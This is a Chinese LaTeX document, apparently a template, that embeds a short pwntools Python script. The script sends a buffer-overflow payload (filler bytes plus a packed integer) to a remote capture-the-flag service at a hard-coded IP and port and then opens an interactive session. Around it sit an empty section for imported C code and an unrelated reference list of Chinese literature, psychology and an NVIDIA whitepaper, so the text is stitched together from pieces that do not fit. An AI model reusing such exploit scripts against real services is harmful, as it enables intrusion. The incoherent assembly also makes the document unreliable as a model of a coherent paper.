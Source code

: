 \documentclass[zihao=-4]{ctexart}
\begin{document}
\begin{spacing}{1.5}
\section{代码}

下面是一段Python代码。
\begin{lstlisting}[language=Python,title={ans002.py}]
from pwn import* #可能会报错 ，试试 python3  
p = remote('111.200.241.244',49686)
payload = 'a'*4 + p64(1853186401).decode("iso-8859-1") #本来没有后面的编码来着
p.recvuntil("lets get helloworld for bof\n")
p.sendline(payload)
p.interactive()
\end{lstlisting}

下面是从文件导入的C代码。


\end{spacing}

\newpage

\section*{参考文献} %
\hypersetup{urlcolor=black}
[1]张志建．严复思想研究[M]．桂林：广西师范大学出版社，1989． 

[2]（英）霭理士．性心理学[M]．潘光旦译．北京：商务印书馆，1997．


[3]伍蠡甫．西方论文选（下册）[C]．上海：上海译文出版社，1979．

[4]叶朗．《红楼梦》的意蕴[J]．北京大学学报（哲学社会科学版），1989，（2）

[5]谢希德．创造学习的新思路[N]．人民日报，1998-12-25（10）

[6]Mansfeld, R.S. \& Busse. \textit{T.V. The Psychology of creativity and discovery}, Chinago：
NelsonHall, 1981

[7]NVIDIA A100 Tensor Core GPU Architecture. Available: \url{https://images.nvidia.com/aem-dam/en-zz/Solutions/data-center/nvidia-ampere-architecture-whitepaper.pdf}

% 
\end{document}
